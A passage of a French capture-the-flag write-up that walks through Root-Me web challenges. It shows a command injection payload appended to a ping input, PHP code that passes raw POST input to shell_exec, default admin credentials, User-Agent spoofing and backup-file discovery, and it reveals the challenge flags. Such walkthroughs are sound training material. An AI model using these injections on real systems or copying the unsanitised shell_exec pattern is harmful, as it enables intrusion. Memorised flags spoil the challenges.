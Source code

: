 Le script PHP appelle donc la fonction `exec` qui appelle une commande système. On passe donc une commande `tail` pour être appelée après le ping :

```
google.fr & tail -n 10 index.php
```

L'output nous renvoie donc le code du fichier `index.php` :

```shell
$flag = "S3rv1ceP1n9Sup3rS3cure";
if(isset($_POST["ip"]) && !empty($_POST["ip"])){
        $response = shell_exec("timeout 5 bash -c 'ping -c 3 ".$_POST["ip"]."'");
        echo $response;
}
?>
PING google.fr (172.217.19.227) 56(84) bytes of data. 64 bytes from par21s11-in-f3.1e100.net (172.217.19.227): icmp_seq=1 ttl=57 time=0.932 ms 64 bytes from par21s11-in-f3.1e100.net (172.217.19.227): icmp_seq=2 ttl=57 time=0.914 ms 64 bytes from par21s11-in-f3.1e100.net (172.217.19.227): icmp_seq=3 ttl=57 time=0.907 ms --- google.fr ping statistics --- 3 packets transmitted, 3 received, 0% packet loss, time 2002ms rtt min/avg/max/mdev = 0.907/0.917/0.932/0.036 ms
```

Le mot de passe est **S3rv1ceP1n9Sup3rS3cure**.

## 4. Mot de passe faible

On teste bêtement le combo `admin` - `admin`... et ça fonctionne.

Le flag est **admin**.

## 5. User-agent

On fait une requête cURL en passant le User-Agent admin comme indiqué en indice du défi :

```shell
nicolas@DESKTOP-JOGTTVS:/mnt/c/Users/Nicolas Law Yim Wan$ curl -A "admin" http://challenge01.root-me.org/web-serveur/ch2/
<html><body><link rel='stylesheet' property='stylesheet' id='s' type='text/css' href='/template/s.css' media='all' /><iframe id='iframe' src='https://www.root-me.org/?page=externe_header'></iframe><h3>Welcome master!<br/>Password: rr$Li9%L34qd1AAe27</h3></body></html>
```

Le flag est **rr$Li9%L34qd1AAe27**.

## 6. Fichier de sauvegarde

Il existe différentes syntaxes de fichiers auto-générés, après avoir essayé différentes syntaxes telles que `#.index.php`, `_.index.php`, `~.index.php`, on récupére un fichier via la syntaxe `index.php~`
On retrouve donc le flag **OCCY9AcNm1tj**.

## 7. HTTP Directory Indexing

En regardant le code source de la page, on observe une ligne commentée :
